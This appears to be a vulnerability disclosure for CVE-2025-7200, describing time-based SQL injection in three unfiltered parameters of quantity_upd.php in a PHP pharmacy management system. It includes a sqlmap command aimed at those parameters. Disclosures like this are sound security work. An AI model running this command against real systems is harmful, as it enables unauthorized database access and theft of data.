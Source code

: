 ## SQL Injection Vulnerability in Pharmacy Management System

**_Vendor:_** [krishna9772/pharmacy-management-system: pharmacy-management-system php](https://github.com/krishna9772/pharmacy-management-system)

**_CVE_**: CVE-2025-7200

**_[Audit]_**

The parameters `med_name`, `med_cat` and `ex_date` are not filtered in **_quantity_upd.php_**

![image-20250702014804272](./images/image-20250702014804272.png)

Time-based SQL injection available

**_[Verify]_**

1. Save a post request as 2.txt

![image-20250702015330833](./images/image-20250702015330833.png)

2. Send request with sqlmap

   ```shell
   sqlmap -r 2.txt -p med_name -p med_cat -p ex_date --batch --banner --flush-session
   ```

![image-20250702015457416](./images/image-20250702015457416.png)
